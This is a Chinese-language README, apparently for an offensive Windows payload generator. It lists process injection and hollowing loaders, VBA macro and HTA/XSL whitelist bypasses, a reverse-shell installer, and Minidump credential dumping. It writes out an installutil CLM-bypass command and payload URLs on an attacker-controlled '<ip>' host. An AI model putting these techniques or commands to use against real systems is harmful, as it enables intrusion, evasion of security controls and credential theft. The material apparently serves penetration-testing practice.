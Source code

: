 ## 使用方法

最好将文件放在共享目录下并将out软链接到/var/www/html
使用时需要一台windows主机

./Generateor.py

./Generateor.py tun0

./Generateor.py eth0

按提示在windows上打开payloads.sln,编译程序(可能需要修改生成程序的路径)

所有结果都生成在out中

所有url和命令都在usage.md,直接复制命令


## C\#
- [x] inject 进程注入 exe
- [x] hollowing exe
- [x] inject dll
- [x] hollowing dll
- [x] Dotnet2jscript inject dll
- [x] Dotnet2jscript hollowing dll
- [x] BypassCLM exe 
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\admin\Desktop\BypassCLM.exe`
- [x] aspx
- [X] compiler绕过白名单
- [x] Installer直接反弹shell绕过白名单

---
## ps1
- [x] inject.ps1 直接注入
- [x] reflection.ps1 powershell反射 inject/hollow
- [x] netreflection.ps1net反射dll <span style="color:red">__路径可能需要修改__</span>
- [x] msfvenom直接生成的 

---
## vba
- [x] loader.vba 普通方法 x86
- [x] vba执行powershell 调用WMI 6.8.2 可以是x64 必须修改为runner.doc

---
## hta
- [x] 绕过白名单 ch4

---
## xsl
- [x] Compiler白名单绕过
http://<ip>/other/test.xml
http://<ip>/other/test.txt
- [X] wmic执行powershell 放到了Csharp中


---
## 其他单独项目
- Minidump 无需重新生成 C# -> tools
- Minidump.ps1 无需重新生成 ps1 -> tools
- lat 改为带参数的 C# -> tools
- MSSQL枚举 C#


---
## 输出说明和目录结构
- Base64加密的ps1

---
## 生成顺序
ps1 -> C# -> vba

---
## 备用计划

---
## TODO
- 添加对工具的生成例如 `curl http://<ip>/`
- 添加工具列表
- 每个生成使用多线程并发执行
- 添加进度条
- 生成使用手册usage.md
  - 替换ip
  - 替换加密的powershell命令




